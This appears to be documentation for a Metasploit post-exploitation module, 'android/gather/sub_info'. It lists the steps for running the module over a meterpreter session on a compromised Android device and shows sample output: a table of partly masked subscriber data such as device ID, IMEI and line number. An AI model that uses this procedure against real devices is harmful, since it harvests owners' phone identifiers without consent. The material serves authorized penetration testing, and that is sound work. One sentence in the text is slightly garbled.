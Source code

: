 ## Vulnerable Application

  This post-exploitation module will extract subscriber information
  from the target device using  call service service call iphonesubinfo <transaction_code>.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use android/gather/sub_info`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see the extracted subscriber information.

## Options

  - **SESSION** - The session to run the module on.

## Extracted data

  - subscribe information

## Scenarios


  ```
msf exploit(multi/handler) > use post/android/gather/sub_info
msf post(android/gather/sub_info) > set session 1
session => 1
msf post(android/gather/sub_info) > run

[!] SESSION may not be compatible with this module.
[*] using code : 1
[*] using code : 2
[*] using code : 3
[*] using code : 4
[*] using code : 5
[*] using code : 6
[*] using code : 7
[*] using code : 8
[*] using code : 9
[*] using code : 10
[*] using code : 11
[*] using code : 12
[*] using code : 13
[*] using code : 14
[*] using code : 15
[*] using code : 16
[*] using code : 17
[*] using code : 18
[*] using code : 19
[*] using code : 20
[*] using code : 21
[*] using code : 22
[*] using code : 23
[*] using code : 24
[*] using code : 25
[*] using code : 26
[*] using code : 27
[*] using code : 28
[*] using code : 29
Subscriber info
===============

 transaction code                      value
 ----------------                      -----
 CompleteVoiceMailNumber
 CompleteVoiceMailNumberForSubscriber
 DeviceId                              86928xxxxxxxxxx
 DeviceIdForSubscriber
 DeviceSvn                             8692890262xxxxx
 GroupIdLevel1                         4042772534xxxxx
 GroupIdLevel1ForSubscriber            4042772534xxxxx
 IccSerialNumber                       ff
 IccSerialNumberForSubscriber          ff
 IccSimChallengeResponse
 ImeiForSubscriber                     8692890xxxxxxxx
 IsimChallengeResponse
 IsimDomain                            Voicemail
 IsimImpi                              Voicemail
 IsimImpu
 IsimIst
 IsimPcscf
 Line1AlphaTag
 Line1AlphaTagForSubscriber
 Line1Number                           899127217xxxxxxxxxx
 Line1NumberForSubscriber              899127217xxxxxxxxxx
 Msisdn
 MsisdnForSubscriber
 SubscriberId                          01
 SubscriberIdForSubscriber             01
 VoiceMailAlphaTag
 VoiceMailAlphaTagForSubscriber
 VoiceMailNumber
 VoiceMailNumberForSubscriber

[*] Post module execution completed
msf post(android/gather/sub_info) >
  ```

